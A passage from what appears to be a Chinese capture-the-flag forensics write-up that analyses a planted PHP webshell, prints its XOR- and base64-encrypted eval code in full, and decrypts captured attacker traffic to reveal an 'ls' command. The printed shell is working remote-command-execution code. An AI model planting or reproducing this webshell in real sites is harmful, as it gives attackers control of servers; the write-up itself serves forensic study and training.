 ```php
        for($i=0;$i<strlen($D);$i++) {
            $D[$i] = $D[$i]^$K[$i+1&15];
        }# E函数为异或加密
        return $D;
    }
    function Q($D){
        return base64_encode($D);
    }# Q函数为base64编码
    function O($D){
        return base64_decode($D);
    }# O函数为base64解码
    $P='pass'; # 木马连接参数
    $V='payload'; # 执行载荷
    $T='3c6e0b8a9c15224a'; # 加密密钥
    if (isset($_POST[$P])){
        $F=O(E(O($_POST[$P]),$T));
        if (isset($_SESSION[$V])){
            $L=$_SESSION[$V];
            $A=explode('|',$L);
            class C{public function nvoke($p) {eval($p."");}}
            $R=new C();
			$R->nvoke($A[0]);
            echo substr(md5($P.$T),0,16);
            echo Q(E(@run($F),$T));
            echo substr(md5($P.$T),16);
        }else{
            $_SESSION[$V]=$F;
        }
    }
#/upload/1615384904.php 上传成功，为1615384904.php
```
- 那么我们只需要关注`1615384904.php`攻击者操作木马进行了哪些操作就好；全部导出，操作流量全加密类似请求POST：

```
pass=OgRUWzZ%2FDUw5ZQRbYXFQfylbVFwGfwlPOXQAWlBjNAo0Wg1fAH4KTjdfb1tkTidcOltUYjJpXAQ%3D
```

- 返回：

```
11cd6a8758984163LmIwSi9SBgguZXwBfFkRSQEEUXsvbDRDLltSA39gKAYtdVBHA3Agci5lYEh/XgYCLmIoSCxRVE4CeXR5f2A4Sy1iKAQsfApOLXIARVN8IHg=6c37ac826a2a04bc
```

- 查看代码逻辑：`post传入参数pass`->`$T密钥加密`->`$V传入class C`进而传入eval函数进行命令执行，所以我们下一步需要做的是破解木马的加密方式，[解密代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CTF/MISC/backdoor/jiemi.php){:target="_blank"}
    - 解得上面的POST请求为：
    - 返回：

```bash
#cmdLine=bHMK&methodName=ZXhlY0NvbW1hbmQ= -> base64decode ->cmdLine=ls&methodName=execCommand
1532851276json       1532851294.php       1532851316.php       1615384904.php
```
